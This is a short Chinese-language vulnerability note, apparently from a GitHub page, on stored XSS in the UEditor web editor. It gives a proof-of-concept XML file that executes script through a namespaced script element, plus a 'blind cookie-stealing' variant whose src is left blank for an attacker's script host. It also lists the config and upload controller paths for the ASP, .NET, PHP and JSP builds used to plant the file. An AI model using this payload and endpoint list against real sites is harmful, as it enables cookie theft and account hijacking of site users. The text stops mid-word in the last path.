 # Ueditor xss存储漏洞



直接文本框输入

漏洞POC:

```xml
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>


盲打Cookie、src=""：
<something:script src="" xmlns:something="http://www.w3.org/1999/xhtml"></something:script>
```

Ueditor 默认支持上传 xml ：config.json可以查看支持上传的后缀

/ueditor/asp/config.json
 /ueditor/net/config.json
 /ueditor/php/config.json
 /ueditor/jsp/config.json

上传文件路径

/ueditor/index.html

 /ueditor/asp/controller.asp?action=uploadimage
 /ueditor/asp/controller.asp?action=uploadfile

 /ueditor/net/controller.ashx?action=uploadimage
 /ueditor/net/controller.ashx?action=uploadfile

 /ueditor/php/controller.php?action=uploadfile
 /ueditor/php/controller.php?action=uploadimage

 /ueditor/jsp/controller.jsp?action=uploadfile
 /ueditor/jsp/controller.jsp?action=uploadimag